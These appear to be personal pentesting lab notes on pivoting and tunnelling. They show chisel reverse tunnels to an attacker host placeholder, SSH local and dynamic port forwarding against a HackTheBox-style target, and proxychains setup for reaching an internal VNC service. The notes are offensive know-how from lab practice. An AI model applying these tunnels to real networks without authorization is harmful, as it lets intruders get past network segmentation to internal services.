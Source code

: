 ```
	./chisel server --reverse -p PORT ##to create a server 
 client 
client <ATTACKER_IP>:9001 R:8500:127.0.0.1:8500 ##create client
 .\chisel.exe client 10.10.17.185:9002 R:8888:localhost:8888
```



# ssh reverse tunnel
```bash
ssh -L my_port:service_IP:target_port 	ssh target ip


ssh -D 1080 -L6801:127.0.0.1:5801 -L6901:127.0.0.1:5901 charix@poison.htbb

-L # listening ports on our machine access  5801 and 5901
-D # Dynamic through proxy

```

## Inside ssh connection

```
~C
-L 4873:localhost:4873 # port forward localhost port 4873 to my machine at port 4873 
```

# Proxy chains
First we add our local host and wanted port into /etc/proxychains.conf
```bash
socks4 127.0.0.1 8081
```
Then we can use ssh to tunnel though port 8081
```bash
ssh charix@10.10.10.84 -D 8081
```

then we can use proxychains with what ever command we want using the wanted port
```bash
proxychains vncviewer 127.0.0.1:5901 -passwd secret
```